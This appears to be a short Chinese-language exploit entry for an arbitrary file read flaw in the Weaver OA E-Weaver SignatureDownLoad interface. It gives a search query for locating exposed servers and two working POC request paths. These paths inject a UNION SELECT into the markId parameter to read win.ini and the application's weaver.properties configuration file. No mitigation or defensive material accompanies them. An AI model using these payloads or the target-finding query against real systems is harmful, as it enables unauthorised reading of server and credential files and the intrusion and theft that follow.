 # 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

泛微OA E-Weaver

## 网络测绘

```
app="泛微-E-Weaver"
```

## 漏洞复现

![image-20220706133659005](images/202207061336151.png)

验证POC

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![image-20220706133707852](images/202207061337908.png)

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![image-20220706133717202](images/202207061337932.png)